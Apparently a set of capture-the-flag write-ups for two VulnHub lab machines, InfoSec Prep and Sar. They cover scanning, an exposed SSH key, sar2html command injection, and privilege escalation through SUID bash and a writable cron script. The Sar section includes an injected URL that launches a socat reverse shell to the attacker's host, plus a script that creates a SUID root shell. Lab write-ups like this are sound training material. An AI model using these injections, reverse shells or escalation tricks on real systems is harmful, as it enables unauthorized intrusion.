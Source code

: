 # InfoSec Prep

**Box** : [InfoSec Prep](https://www.vulnhub.com/entry/infosec-prep-oscp,508/).  
**Vulnerability** : Sensitive data Exposure.  
**Vulnerability explanation** : private ssh key left on sever.  
**Privilege Escalation** : Executing SUID executables (bash)

---

## nmap scan

nmap scan revealed that `Apache httpd 2.4.41` is running on port `80`, and robots.txt contains a Disallowed entry: `/secret.txt`

![nmap scan](infosec_assets/nmap_scan.png)

```
$ nmap 192.168.1.102 -sV -sC
Nmap scan report for 192.168.1.102
Host is up (0.00067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:ba:0d:d4:39:05:e3:13:55:57:8f:1b:46:90:db:e4 (RSA)
|   256 0f:35:d1:a1:31:f2:f6:aa:75:e8:17:01:e7:1e:d1:d5 (ECDSA)
|_  256 af:f1:53:ea:7b:4d:d7:fa:d8:de:0d:f2:28:fc:86:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-generator: WordPress 5.4.2
|_http-title: OSCP Voucher &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct  4 08:16:54 2022 -- 1 IP address (1 host up) scanned in 22.49 seconds
```

## Initial foothold

`secret.txt` conatins a base64 value

```
$ curl 192.168.1.102/secret.txt -O
```

![curl secret](infosec_assets/curl_secret.png)

**Decoded it and got a ssh private key**

`cat secret.txt | base64 -d > ssh-key`

![ssh private key](infosec_assets/ssh-key.png)

**Used ssh-key to get a session as `oscp` user**

```
$ chmod 0600 ssh-key
$ ssh -i ssh-key oscp@192.168.1.102
```

![oscp user](infosec_assets/oscp_user.png)

## Privilge Escalation

**Used `find` command to list files with SUID bit set.**

```
$ find / -type f -perm -u=s 2>/dev/null
```
![find suid](infosec_assets/find.png)

**The output showed that `/usr/bin/bash` is one of them.**

![bash suid](infosec_assets/bash-suid.png)

**Ran `bash -p` and got a root shell**

![root shell](infosec_assets/root-shell.png)

# Sar

**Box**: [sar](https://www.vulnhub.com/entry/sar-1,425/)  
**Vulnerability**: Remote Command Execution  
**Privilege Escalation**: Cronjob abuse

---

## nmap scan

![](sar_assets/nmap.png)

```
$ nmap -A 192.168.1.104
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-06 11:43 EDT
Nmap scan report for 192.168.1.104
Host is up (0.00065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.66 seconds
```

## Initial foothold

**`robots.txt` contains one value: `sar2HTML`**

![](sar_assets/robots.png)

**Browsed to `http://192.168.1.104/sar2HTML` and got the home page**

![](sar_assets/sar2HTML.png)

**Looked for an exploit online and found this one at [exploitdb](https://www.exploit-db.com/exploits/47204)**

```
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

**Tested the exploit:**

![](sar_assets/exploit-test.PNG)

**Used socat reverse shell found at [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#socat)**

**Sat up a listener**

```
socat file:`tty`,raw,echo=0 TCP-L:444
```

**Browsed to `http://192.168.1.104/sar2HTML/index.php?plot=;socat%20exec:%27bash%20-li%27,pty,stderr,setsid,sigint,sane%20tcp:192.168.1.100:4444` and got a reverse shell as `www-data`.**


## Privilege Escalation

**Examined the content of `/etc/crontab` and found a job running every 5 minutes to execute `/var/www/html/finally.sh`.**

![](sar_assets/crontab.png)

**Examined `finally.sh` and found that it executes `write.sh` which we can modify.**

![](sar_assets/write-is-writable.png)

**Backed up `write.sh` as `write.sh.orig`**

**Modified `write.sh` with the following:**

```
#!/bin/sh

cp /bin/bash /bin/mybash
chmod u+s /bin/mybash
```

![](sar_assets/write-modify.png)

**Waited for 5 minutes, and `mybash` was created with the SUID bit set.**

![](sar_assets/mybash-suid.png)

**Ran `mybash -p` and got a root shell**

![](sar_assets/root-shell.png)

